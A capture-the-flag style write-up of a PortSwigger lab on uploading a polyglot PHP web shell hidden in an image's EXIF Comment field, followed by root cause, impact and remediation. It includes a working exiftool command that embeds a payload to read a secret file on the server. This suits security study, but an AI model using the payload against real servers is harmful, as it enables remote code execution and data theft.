

# PortSwigger Lab: Remote code execution via polyglot web shell upload

# TAGS: File Upload, Polyglot, EXIF Metadata, exiftool, RCE, Burp Suite

Category: File Upload
Date: September 25, 2026
Day: Friday
Link: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload
Published: Ready
Status: Done

---

# Lab Information:

- **Vulnerability Location:** Remote code execution via polyglot web shell upload
- **Difficulty:** Apprentice
- **Objective:** Exfiltrate the file `/home/carlos/secret` using a web shell.
- **Tools:** Burp Suite, exiftool
- **Provided Credentials:** `wiener:peter`

---

## Introduction

In this lab, the application no longer trusts the file extension: it inspects the actual contents of the uploaded file and rejects anything that is not a genuine image. To bypass this, I created a polyglot file — a valid image that also contains PHP code in its metadata. I show how I used `exiftool` to embed a web shell in the image's `Comment` field, uploaded it as my avatar, and retrieved the secret from the response.

This write-up covers the reconnaissance, the exploitation steps, the root cause, the real-world impact, and how to prevent it.

---

## Reconnaissance:

#### Lab Description Lookup:

As I continue on the File Upload subject, this lab is similar to the previous ones: the application has an image upload function, but this time it checks the contents of the file to verify that it is a genuine image. It also hints that it is still possible to upload and execute server-side code.

With Burp running, I navigated directly to `/my-account` and logged in using the credentials provided by the lab (`wiener:peter`).

Once logged in, I went to the image upload page and tested whether the application accepts `.php` files.

```http
HTTP/2 403 Forbidden
Date: Fri, 25 Sep 2026 16:16:12 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 164

Error: file is not a valid image
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

I received a `403 Forbidden` response, confirming that the application is indeed analysing the file's content. Unlike the previous lab, the error does not mention the extension.

---

## Exploitation:

#### Step 1: Create a polyglot image with the shell in its metadata

Since the application analyses the file's content, I had to upload a real image. My plan was to embed the PHP payload in the image's metadata, producing a file that is simultaneously a valid image and executable PHP — a polyglot.

For this task, I used `exiftool`.

> A command-line interface to Image::ExifTool, used for reading and writing meta information in a variety of file types. FILE is one or more source file names, directory names, or - for the standard input. Metadata is read from source files and printed in readable form to the console (or written to output text files with -w).
> https://exiftool.org/exiftool_pod.html#Writing

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" avatar.png -o avatar.php
```

- `-Comment`: this option writes a comment into the file's metadata.
- `<?php ... ?>`: the payload reads the secret and wraps it between `START ` and `END`.
- The `START` and `END` tags are just delimiters. Since the response also contains the binary image data, they let me locate the secret in the middle of it.
- `-o avatar.php`: saves the output as `avatar.php`, keeping the original image untouched.

The output of the command was `avatar.php`, which I uploaded through the avatar upload function. The server accepted it:

```http
HTTP/2 200 OK
Date: Fri, 25 Sep 2026 16:24:22 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 131

The file avatars/avatar.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

#### Step 2: Access the uploaded file

After uploading the file, I had to access it in order to see its output. I looked through the proxy history and found the `GET /files/avatars/avatar.php` request.



I searched the response for the `START`/`END` delimiters and confirmed that the server executed the PHP code and returned the secret between them. I submitted the secret and solved the lab.

---

## Root Cause

The vulnerability exists because content validation and the storage/execution contexts are not aligned:

1. **Content validation only:** the server checked that the file was a valid image, but it neither sanitized the file's metadata nor prevented the file from being interpreted as code once stored.
2. **Executable storage location:** the uploaded file was stored with a `.php` extension in a directory served and configured by Apache to execute PHP. Even though the file was a valid image, the web server still handed it to the PHP interpreter.

Because PHP ignores everything outside the `<?php ?>` tags, the image bytes are simply sent to the client while the embedded payload is executed — turning a valid image into a valid web shell.

---

## Impact

Once the polyglot is executable, an attacker gains remote code execution (RCE) with the privileges of the web application. In real-world applications, this is a critical vulnerability: an attacker could read arbitrary files, modify or destroy data, install a persistent backdoor, or pivot into internal systems — leading to full server compromise.

---

## Remediation

To prevent this issue, applications should:

- Re-encode or process uploaded images (which strips metadata) instead of storing them as received;
- Validate the file's content server-side and never store uploads in a location the web server executes — serve them from a separate domain or static storage with scripting disabled;
- Reject executable extensions such as `.php` using an allow-list, and do not let the extension be attacker-controlled;
- Strip or ignore metadata fields (e.g., `Comment`) on uploaded files;
- Run the application with the least privileges necessary, so that code execution does not immediately grant full access to the system.

---

## Key Takeaways

1. Validating that a file is an image is not enough if the file can still be executed.
2. Metadata is user-controlled input and can carry code.
3. A polyglot file satisfies two parsers at once — image and PHP.
4. The extension and the storage directory determine execution, so both must be handled safely.
5. Re-encoding uploaded images removes embedded payloads like this one.

---

## References

- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [PortSwigger — Remote code execution via polyglot web shell upload (lab)](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
- [ExifTool — Documentation](https://exiftool.org/exiftool_pod.html)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

## Disclaimer

This write-up was created for educational purposes only. All testing was performed in an authorized PortSwigger Web Security Academy laboratory environment. Never test systems without explicit authorization.

This article was written with the assistance of artificial intelligence tools for text review, structure, and grammar correction. However, the entire testing process, technical analysis, vulnerability exploitation, and conclusions presented are the sole responsibility of the author and are based on tests performed in a controlled environment provided by the PortSwigger Web Security Academy.
